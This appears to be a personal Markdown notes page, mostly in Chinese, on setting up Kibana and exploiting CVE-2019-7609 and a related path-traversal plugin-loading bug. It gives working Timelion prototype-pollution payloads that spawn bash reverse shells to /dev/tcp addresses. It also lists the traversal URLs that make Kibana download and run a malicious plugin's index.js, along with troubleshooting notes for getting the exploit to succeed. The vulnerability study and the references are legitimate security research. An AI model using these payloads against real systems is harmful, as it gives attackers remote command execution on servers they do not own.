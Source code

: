 ### Download and install
- https://www.elastic.co/downloads/kibana
- https://artifacts.elastic.co/downloads/kibana/kibana-6.2.4-linux-x86_64.tar.gz
- https://www.elastic.co/downloads/past-releases#elasticsearch
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-8.1.1-linux-x86_64.tar.gz
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-6.2.4.zip

```
Run bin/kibana (or bin\kibana.bat on Windows)
```

![image](https://user-images.githubusercontent.com/30398606/160968247-fc9def98-5a03-4f56-a3c8-3fd6e5497250.png)


依赖Elasticsearch。
### 修改端口地址
`config/elasticsearch.yml`
```
network.host
```
`config/kibana.yml`
```
server.host
```

- https://www.elastic.co/guide/cn/kibana/current/settings.html
- 
### 载入数据

安装完ElasticSearch之后需要载入数据，否则出现这种情况：
![image](https://user-images.githubusercontent.com/30398606/160978398-9e1b2ad7-b2fc-476a-ab88-2e390a6d7779.png)

- https://www.elastic.co/guide/en/kibana/6.7/tutorial-load-dataset.html

### kibana CVE-2019-7609

- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://github.com/nobodyatall648/writeup/blob/master/TryHackMe/kiba.pdf
- https://www.youtube.com/watch?v=xF5i30mXhSM
- https://baizesec.github.io/bylibrary/%E6%BC%8F%E6%B4%9E%E5%BA%93/03-%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/Kibana/CVE-2019-7609-kibana%E4%BD%8E%E4%BA%8E6.6.0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/


### CVE-2019-7609

> Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.


### PoC
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```


但是漏洞触发，还需要点击"Canvas"。但是某些版本，比如6.2.4并没有"Canvas"功能。


### Rescue
![image](https://user-images.githubusercontent.com/30398606/160997528-7ae1dc1d-8df6-4a32-a6e8-8e47d0e0d1a9.png)

![image](https://user-images.githubusercontent.com/30398606/160998219-fb2d6312-ced4-4912-b3df-2ead6af97ccb.png)

确实下载了test.zip，但是安装出错，导致kibana退出了。如果是实战中，就悲剧了，把有漏洞的kibana给关了，真的无法利用了。
![image](https://user-images.githubusercontent.com/30398606/160999181-696f238a-adca-44bb-a813-2aca8dcb574b.png)

原来是没有把index.js打包进去。

安装失败参考这个构造zip包：
https://github.com/outbrain/ob-kb-percent/issues/7

![image](https://user-images.githubusercontent.com/30398606/161001182-62faa5e8-6d69-4464-8367-c27aecbdbe9d.png)

确保把package.json和index.js都打包进去。
![image](https://user-images.githubusercontent.com/30398606/161003176-a8df6af8-4d10-4553-ad4e-a2f32325b9e0.png)

虽然报这个错，但是插件已经安装成功了。
![image](https://user-images.githubusercontent.com/30398606/161003301-b4029b69-54d8-45cf-8918-2ea3f0ad511d.png)


### 利用过程
0、准备恶意插件：







1、设置payload：


2、触发下载插件：
http://192.168.17.128:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../cli_plugin/cli.js




3、触发Kibana加载插件，执行恶意的index.js
http://192.168.17.128:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../plugins/synacktiv/index.js
![image](https://user-images.githubusercontent.com/30398606/161235363-3c99ed01-1a6a-4311-99bc-32ea44bbe370.png)


![image](https://user-images.githubusercontent.com/30398606/161235216-0dc772bb-6de5-4f4a-addf-8025a32e36cf.png)

利用有风险，很多地方都能把kibana给弄挂。这里反弹shell结束之后，kibana就挂了。

## Ref
- https://github.com/mpgn/CVE-2019-7609
- https://github.com/mpgn/CVE-2018-17246
- https://www.synacktiv.com/en/publications/pwning-an-outdated-kibana-with-not-so-sad-vulnerabilities.html
- https://twitter.com/chybeta/status/1185860595620311042
- https://github.com/harsh-bothra/learn365/blob/main/days/day32.md
